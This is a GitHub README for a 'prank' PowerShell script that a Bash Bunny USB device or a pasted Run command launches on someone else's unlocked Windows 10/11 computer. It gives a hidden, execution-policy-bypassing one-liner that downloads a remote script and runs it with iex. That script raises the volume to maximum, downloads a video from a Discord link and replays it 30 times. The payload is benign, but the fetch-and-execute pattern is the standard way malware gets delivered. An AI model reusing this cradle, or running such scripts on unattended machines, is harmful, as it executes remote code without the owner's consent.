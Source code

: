 # Prout Script
![alt text](https://github.com/RylexOff/Prout-Script/blob/main/Prout-Script.gif?raw=true)

## Table of contents

- [Description](#description)
- [Getting Started](#getting-started)
  - [Dependencies](#dependencies)
  - [Execution](#execution)
- [Code Explanation](#code-explanation)
  - [BashBunny Script](#bashbunny-script)
  - [PowerShell Script](#powershell-script)
- [Contributing](#contributing)
- [Version History](#version-history)
- [Contact](#contact)
- [Acknowledgments](#acknowledgments)


## Description


It's a prank script designed to make your friend laugh who doesn't lock their computer. it must be run on a Windows 10 or 11 system, it does:
- Increase the volume to the maximum
- Download the video
- Launch the video in a loop (30 times max).


This script must be used as is, nothing to modify. The chosen video is a fart of Shrek, because we appreciate humor. That's why it's called the "prout-script".
ps: "Prout" = "Fart" in French

## Getting Started

### Dependencies

- Windows 10, 11
- Internet connection

### Execution

1. Plug in your bash bunny.
2. Modify the code to specify your preferred browser and video link.
3. The script will automatically execute, raising the volume to the maximum and opening the specified webpage or video.

Or

1. Windows + R
2. Past " powershell -NoP -NonI -WindowStyle Hidden -Exec Bypass "(iwr -UseBasicParsing https://raw.githubusercontent.com/RylexOff/Prout-Script/main/prout_script.ps1).Content | iex" "
3. Press Enter
   
## Code explanation

### BashBunny Script
This line of code directly executes the script content from the specified URL using Invoke-WebRequest.
```
powershell -NoP -NonI -WindowStyle Hidden -Exec Bypass "(iwr -UseBasicParsing https://raw.githubusercontent.com/RylexOff/Prout-Script/main/prout_script.ps1).Content | iex"
```
### Powershell Script

These lines increase the system volume by simulating pressing the "[char]0xAF" key which is the volume up key
```
$volume = New-Object -ComObject "WScript.Shell"
$volumeLevel = 100
for ($i = 0; $i -le $volumeLevel; $i++) {
    $volume.SendKeys([char]175)
}
```

Set the download path in a variable
```
$downloadPath = "$env:USERPROFILE\Downloads" 
```

Download the video of shrek who farts. You can modify the url to put another video certainly funnier ='(
```
(New-Object System.Net.WebClient).DownloadFile('https://cdn.discordapp.com/attachments/937329842859421706/1130437612985909298/Bruit_de_pet_qui_resonne.mp4', $downloadPath + '\shrek_Farts.mp4') 
```

Get the path of the last downloaded file
```
$videoPath = $(Get-ChildItem -Path $env:USERPROFILE\Downloads | Sort-Object -Property LastWriteTime -Descending | Select-Object -First 1).FullName
```

Open default media player
```
$shell = New-Object -ComObject Shell.Application
```

Will restart the video 30 times
```
for ($i = 1; $i -le 30; $i++) {
    $shell.ShellExecute($videoPath)
    Start-Sleep -Milliseconds 4000
    $shellWindows = $shell.Windows()
    foreach ($window in $shellWindows) {
        if ($window.Document.Title -like "*shrek_Farts*") {
            $window.Quit()
        }
    }
}
```
## Contributing

Contributors:
- RylexOff

## Version History

- 1.0: Initial Release

## Contact

- GitHub: [RylexOff](https://github.com/RylexOff)

## Acknowledgments

- [Hak5](https://hak5.org/)
- [I-Am-Jakoby](https://github.com/I-Am-Jakoby)
